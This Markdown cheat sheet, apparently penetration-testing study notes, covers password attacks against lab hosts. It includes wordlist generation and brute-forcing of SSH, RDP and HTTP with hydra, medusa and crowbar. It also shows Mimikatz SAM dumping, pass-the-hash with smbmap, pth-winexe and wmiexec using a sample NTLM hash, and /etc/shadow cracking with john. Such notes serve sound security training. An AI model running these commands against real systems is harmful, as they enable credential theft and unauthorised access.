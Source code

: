 # Password Attacks

## Generate Wordlists

* `/usr/share/wordlists`

* `/usr/share/seclists`

### crunch

=== "Generation"

	``` bash
	crunch 5 5 -t ,@@^% -o password.txt
	```

	``` bash
	crunch 10 10 0123456789 -t 2343@@@@@@ -o passwd.txt
	```

	Using `/usr/share/crunch/charset.lst`

	``` bash
	crunch 4 4 -f /usr/share/crunch/charset.lst lalpha -o crunch.txt
	```

=== "crunch options"

	|Placeholder | Character Translation|
	|--|--|
	|@ | Lower case alpha characters|
	|, | Upper case alpha characters|
	|% | Numeric characters|
	|^ | Special characters including space|

### cewl

``` bash
cewl $url -m 6 -w wordlists.txt
```

### john.conf Rules

`/etc/john/john.conf` > `[List.Rules:Wordlist]`

``` bash
john --wordlist=passwd.txt --rules --stdout > pass-rules.txt
```

## Common Services

### HTTP htaccess Attack

[How To Set Up Password Authentication with Apache on Ubuntu 14.04](https://www.digitalocean.com/community/tutorials/how-to-set-up-password-authentication-with-apache-on-ubuntu-14-04)

``` bash
medusa -h 127.0.0.1 -u kali -P ./pass.txt -M http -m DIR:/
```

### RDP Attack

``` bash
crowbar -b rdp -s 192.168.11.135/32 -u windows_10_1903_x64 -C ./pass.txt -n 4
```

### SSH Attack

``` bash
hydra -l kali -P ./pass.txt ssh://127.0.0.1
```

### HTTP POST Attack

``` bash
hydra -l admin -P ./pass.txt 192.168.11.135 http-form-post "/admin.php:user=admin&pass=^PASS^:INVALID CREDENTIALS" -vV -f
```

## Leveraging Password Hashes

### Retrieving Password Hashes

[How to identify hash types](https://miloserdov.org/?p=1254)

[Generate password](https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation) for new user

``` bash
openssl passwd -1 -salt hades leecybersec > hash.txt
```

``` bash
hashid -m hash.txt
```

``` bash
john --wordlist=./pass.txt hash.txt
```

### Passing the Hash in Windows

[Intro to Windows hashes](https://chryzsh.gitbooks.io/darthsidious/content/getting-started/intro-to-windows-hashes.html)

Mimikatz.exe

``` bash
privilege::debug
token::elevate
lsadump::sam
```

[Pass-The-Hash](https://www.puckiestyle.nl/pass-the-hash)

Using smbmap

List directory at folder Desktop

``` bash
smbmap -H 192.168.11.135 -u windows_10_1903_x64 -p 'aad3b435b51404eeaad3b435b51404ee:68bdacb06923faed9dc32661308f594e' -r 'Users\windows_10_1903_x64\Desktop'
```

Download file `41542.c` in Windows 10

``` bash
smbmap -H 192.168.11.135 -u windows_10_1903_x64 -p 'aad3b435b51404eeaad3b435b51404ee:68bdacb06923faed9dc32661308f594e' --download 'Users\windows_10_1903_x64\Desktop\41542.c'
```

pth-winexe

``` bash
pth-winexe -U windows_10_1903_x64%aad3b435b51404eeaad3b435b51404ee:68bdacb06923faed9dc32661308f594e //192.168.11.135 cmd
```

pth-wmis

``` bash
pth-wmis -U windows_10_1903_x64%aad3b435b51404eeaad3b435b51404ee:68bdacb06923faed9dc32661308f594e //192.168.11.135 cmd
```

xfreerdp

``` bash
xfreerdp /v:192.168.11.135 /u:windows_10_1903_x64 /pth:68bdacb06923faed9dc32661308f594e
```

wmiexec.py

``` bash
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:68bdacb06923faed9dc32661308f594e windows_10_1903_x64@192.168.11.135
```

## Password Cracking

``` bash
john --wordlist=./pass.txt hash.txt
```

``` bash
unshadow passwd shadow > hash
```

``` bash
john --rules --wordlist=./pass.txt hash
```

[https://hashcat.net](https://hashcat.net)